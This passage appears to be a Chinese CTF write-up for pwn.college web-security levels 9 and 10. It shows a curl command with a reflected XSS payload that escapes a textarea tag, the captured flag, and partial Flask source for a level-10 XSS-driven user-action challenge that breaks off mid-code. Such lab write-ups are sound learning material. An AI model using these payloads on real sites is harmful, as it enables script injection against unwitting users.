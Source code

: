 ```
            else:
                return f"{flag}\n"

    return "Not Found\n", 404
```
差不多，不同的是要使用`<textarea>`标签
```
hacker@web-security-level-9:~$ curl "http://challenge.localhost/visit?url=http://challenge.localhost/echo?echo=</textarea><script>alert(1)</script><textarea>"
pwn.college{Ukha1cPrsQUTyJ0IakNuWL6dt7w.dVTOzMDL2QjMyMzW}
hacker@web-security-level-9:~$
```

## level10 Exploit a cross site scripting vulnerability to cause a user action
源代码
```
def level10():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password, ? as leak'),
               (flag, False))

    if request.path == "/login":
        if request.method == "POST":
            username = request.form.get("username")
            password = request.form.get("password")
            assert username, "Missing `username` form"
            assert password, "Missing `password` form"

            user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
            assert user, "Invalid `username` or `password`"

            session["user"] = int(user["rowid"])
            return redirect(request.path)

        return form(["username", "password"])

    if request.path == "/leak":
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        assert user, "Not logged in"
        db.execute(f"UPDATE users SET leak = TRUE WHERE rowid = ?", (user_id,))
        return "Leaked\n"

    if request.path == "/info":
        assert "user" in request.args, "Missing `user` argument"
        user_id = int(request.args["user"])
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        assert user, "Invalid `user`"
        info = [user["username"]]
        if user["leak"]:
            info.append(user["password"])
        return " ".join(info) + "\n"

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == challenge_host, f"Invalid `url`, hostname should be `{challenge_host}`"

```